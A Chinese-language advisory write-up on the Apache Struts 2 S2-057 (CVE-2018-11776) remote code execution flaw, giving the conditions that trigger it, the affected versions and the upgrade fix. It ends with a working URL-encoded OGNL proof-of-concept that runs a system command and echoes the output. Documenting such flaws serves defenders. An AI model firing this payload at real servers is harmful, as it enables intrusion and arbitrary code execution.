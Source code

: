 # 事件来源

Struts 2 是一个基于 MVC 设计模式的Web应用框架。其官方在 8 月 22 号发出安全通告及补丁，对其存在的一个远程代码执行漏洞进行修复：

https://cwiki.apache.org/confluence/display/WW/S2-057



该漏洞编号为 S2-057，CVE 编号为 CVE-2018-11776，当在struts2开发框架中启用泛namespace功能，并且使用特定的result时，会触发远程代码执行漏洞。

由来自 Semmle 安全研究团队的成员 Man Yue Mo 发现并报告。

#  漏洞描述

  
当没有为基础 XML 配置中定义的 result 设置 namespace ，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，即可能造成远程代码执行漏洞。



同样地，当使用没有设置 value 和 action 的 url 标签，且其上层的 action 配置没有 namespace 或使用通配符 namespace时，也可能会造成远程代码执行漏洞。  


漏洞的发现者 Man Yue Mo 写了一篇博客，较详细地分享了他发现这个漏洞的过程和方法：

https://lgtm.com/blog/apache\_struts\_CVE-2018-11776



漏洞作者是在调试分析 Struts 2 历史漏洞 S2-032 , S2-033 和 S2-037 时发现的此漏洞，并且此漏洞也与 OGNL 表达式构造相关。  


下图为漏洞作者利用此漏洞成功执行任意代码的截图：

![](/assets/s2-057-1.png)

# 影响范围

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

实际场景中存在一定局限性，需要满足一定条件。

# 解决方案

对 Structs 2 版本进行升级以更新安全补丁：

Struts 2.3.x 版本升级到 2.3.35

Struts 2.5.x 版本升级到 2.5.17

漏洞验证![](/assets/s2057-2.png)传入OGNL表达式${2333+2333}![](/assets/s2057-3.png)  
成功带入执行函数，并执行![](/assets/s2057-4.png)返回结果至URL



POC:

[http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b\(%23\_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime\(\).exec\(%27calc%27\).getInputStream\(\)%2c%23b%3dnew+java.io.InputStreamReader\(%23a\)%2c%23c%3dnew++java.io.BufferedReader\(%23b\)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read\(%23d\)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse\(\).getWriter\(\)%2c%23jas502n.println\(%23d+\)%2c%23jas502n.close\(\)\)%7d/actionChain1.action](http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b%28%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27calc%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew++java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char%5b51020%5d%2c%23c.read%28%23d%29%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23jas502n.println%28%23d+%29%2c%23jas502n.close%28%29%29%7d/actionChain1.action)

  
靶机测试

[https://github.com/jas502n/St2-057/blob/master/README.md](https://github.com/jas502n/St2-057/blob/master/README.md)

